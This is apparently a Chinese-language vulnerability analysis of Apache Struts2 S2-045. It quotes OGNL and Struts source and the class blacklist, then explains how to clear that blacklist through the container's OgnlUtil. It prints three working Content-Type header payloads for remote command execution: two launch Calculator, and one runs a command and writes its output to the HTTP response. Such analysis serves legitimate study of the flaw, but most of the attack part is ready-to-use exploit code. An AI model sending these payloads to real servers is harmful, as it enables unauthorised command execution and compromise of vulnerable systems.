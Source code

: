 # S2-045分析

在这个当中又将struts当中ognl的执行提升到一个新难度，但是前辈们还是很厉害也是成功进行了绕过，首先要知道有些什么变动

首先_memberAccess没了，因此我们不能再使用 `#_memberAccess` 来访问 ValueStack 中的 SecurityMemberAccess 对象

```java
public Object get(Object key) {
  Object result;
  if (RESERVED_KEYS.containsKey(key)) {
    if (key.equals("this")) {
      result = this.getCurrentObject();
    } else if (key.equals("root")) {
      result = this.getRoot();
    } else if (key.equals("context")) {
      result = this;
    } else if (key.equals("_traceEvaluations")) {
      result = this.getTraceEvaluations() ? Boolean.TRUE : Boolean.FALSE;
    } else if (key.equals("_lastEvaluation")) {
      result = this.getLastEvaluation();
    } else if (key.equals("_keepLastEvaluation")) {
      result = this.getKeepLastEvaluation() ? Boolean.TRUE : Boolean.FALSE;
    } else if (key.equals("_classResolver")) {
      result = this.getClassResolver();
    } else {
      if (!key.equals("_typeConverter")) {
        throw new IllegalArgumentException("unknown reserved key '" + key + "'");
      }

      result = this.getTypeConverter();
    }
  } else {
    result = this._values.get(key);
  }

  return result;
}
```

同时在struts-default.xml当中黑名单又添加了 ognl.MemberAccess 和 ognl.DefaultMemberAccess 类

```java
<constant name="struts.excludedClasses"
              value="
                java.lang.Object,
                java.lang.Runtime,
                java.lang.System,
                java.lang.Class,
                java.lang.ClassLoader,
                java.lang.Shutdown,
                java.lang.ProcessBuilder,
                ognl.OgnlContext,
                ognl.ClassResolver,
                ognl.TypeConverter,
                ognl.MemberAccess,
                ognl.DefaultMemberAccess,
                com.opensymphony.xwork2.ognl.SecurityMemberAccess,
                com.opensymphony.xwork2.ActionContext" />

    <!-- this must be valid regex, each '.' in package name must be escaped! -->
    <!-- it's more flexible but slower than simple string comparison -->
    <!-- constant name="struts.excludedPackageNamePatterns" value="^java\.lang\..*,^ognl.*,^(?!javax\.servlet\..+)(javax\..+)" / -->

    <!-- this is simpler version of the above used with string comparison -->
    <constant name="struts.excludedPackageNames" value="java.lang.,ognl,javax,freemarker.core,freemarker.template" />
```

因此之前的S2-032的payload也因此不能用了

拿到网上的payload我们进行分析

```http
Content-Type: %{(#yyds='multipart/form-data').(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -na Calculator'))}
```

第一个是因为要求需要包含 "multipart/form-data"，但不以" multipart/" 开头，进入后面container部分

在创建根对象时调用com.opensymphony.xwork2.ognl.OgnlValueStackFactory#createValueStack

```java
public ValueStack createValueStack() {
  ValueStack stack = new OgnlValueStack(this.xworkConverter, this.compoundRootAccessor, this.textProvider, this.allowStaticMethodAccess);
  this.container.inject(stack);
  stack.getContext().put("com.opensymphony.xwork2.ActionContext.container", this.container);
  return stack;
}
```

在创建这个根对象的时候，会调用 setRoot 方法初始化它的各种属性

```java
protected void setRoot(XWorkConverter xworkConverter, CompoundRootAccessor accessor, CompoundRoot compoundRoot, boolean allowStaticMethodAccess) {
  this.root = compoundRoot;
  this.securityMemberAccess = new SecurityMemberAccess(allowStaticMethodAccess);
  this.context = Ognl.createDefaultContext(this.root, accessor, new OgnlTypeConverterWrapper(xworkConverter), this.securityMemberAccess);
  this.context.put("com.opensymphony.xwork2.util.ValueStack.ValueStack", this);
  Ognl.setClassResolver(this.context, accessor);
  ((OgnlContext)this.context).setTraceEvaluations(false);
  ((OgnlContext)this.context).setKeepLastEvaluation(false);
}
```

而这个securityMemberAccess也通过Ognl.createDefaultContext设置到了OgnlContext，因此我们要想更改 OgnlValueStack.securityMemberAccess，其实就可以直接修改OgnlContext._memberAccess即可

```java
public static Map addDefaultContext(Object root, ClassResolver classResolver, TypeConverter converter, MemberAccess memberAccess, Map context) {
  OgnlContext result;
  if (!(context instanceof OgnlContext)) {
    result = new OgnlContext();
    result.setValues(context);
  } else {
    result = (OgnlContext)context;
  }

  if (classResolver != null) {
    result.setClassResolver(classResolver);
  }

  if (converter != null) {
    result.setTypeConverter(converter);
  }

  if (memberAccess != null) {
    result.setMemberAccess(memberAccess);
  }

  result.setRoot(root);
  return result;
}

public void setMemberAccess(MemberAccess value) {
  if (value == null) {
    throw new IllegalArgumentException("cannot set MemberAccess to null");
  } else {
    this._memberAccess = value;
  }
}
```

之后通过container 进行对象的注入，并将 container 放入 context 中，在这个过程当中也将黑名单通过com.opensymphony.xwork2.ognl.OgnlValueStack#setOgnlUtil加载进去，而且`OgnlContext`中，同时可以看到`this.ognlUtil = ognlUtil`为对象的引用，因此全局也都共享一个实例

```java
@Inject
public void setOgnlUtil(OgnlUtil ognlUtil) {
  this.ognlUtil = ognlUtil;
  this.securityMemberAccess.setExcludedClasses(ognlUtil.getExcludedClasses());
  this.securityMemberAccess.setExcludedPackageNamePatterns(ognlUtil.getExcludedPackageNamePatterns());
  this.securityMemberAccess.setExcludedPackageNames(ognlUtil.getExcludedPackageNames());
}
```

因此payload的获取也很明确了

获得 Container 对象后，使用 `getInstance()` 方法获取之前注入的OgnlUtil对象，而通过这个OgnlUtil工具类我们就可以清除SecurityMemberAccess当中的一些限制性属性，从而实现绕过限制执行命令

有回显

```http
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

当然也不一定非要用clear方法，毕竟有set方法

```java
%{(#yyds='multipart/form-data').(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses='').(#ognlUtil.excludedPackageNames='').(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -na Calculator'))}
```
